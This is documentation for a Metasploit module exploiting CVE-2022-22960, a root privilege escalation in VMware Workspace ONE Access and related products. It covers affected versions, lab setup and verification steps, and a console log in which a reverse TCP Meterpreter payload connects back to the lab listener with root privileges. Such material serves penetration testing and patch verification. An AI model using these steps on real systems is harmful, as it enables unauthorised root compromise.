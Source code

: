 ## Vulnerable Application

This module exploits CVE-2022-22960 which allows the user to overwrite the permissions of the certproxyService.sh script
so that it can be modified by the horizon user. This allows a local attacker with the uid 1001 to escalate their
privileges to root access.

| Vulnerable Application  | Vulnerable version   |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager| 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file. 
During VM Configuration within VMware Fusion, in Addition Settings input the following: 

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1 

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1 

IP Address: 192.168.123.16 
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
 - Appliance Administrator Account
 - Appliance Root Account
 - Remote User Account

Select Database
 - Database Type: Internal Database

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/local/vmware_workspace_one_access_cve_2022_22960`
1. Set the `SESSION`, `LHOST`, and `TARGET`
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796

```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > use exploit/linux/local/vmware_workspace_one_access_cve_2022_22960
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set lport 4446
lport => 4446
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > set target 1
target => 1
msf6 exploit(linux/local/vmware_workspace_one_access_cve_2022_22960) > run

[*] Started reverse TCP handler on 192.168.123.1:8857
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. vulnerable
[*] Certproxy backup filename: dbuLdTYQtCRC
[*] Writing '/tmp/WDqWKsXUhR.sh' (250 bytes) ...
[*] Writing '/tmp/XCsQRZOyjabt.sh' (872 bytes) ...
[*] Triggering the payload...
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Deleted /tmp/WDqWKsXUhR.sh
[+] Deleted /tmp/XCsQRZOyjabt.sh
[*] Restoring /opt/vmware/certproxy/bin/certproxyService.sh with newfound root powers
[*] Meterpreter session 12 opened (192.168.123.1:8857 -> 192.168.123.16:37470) at 2023-04-05 16:23:46 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
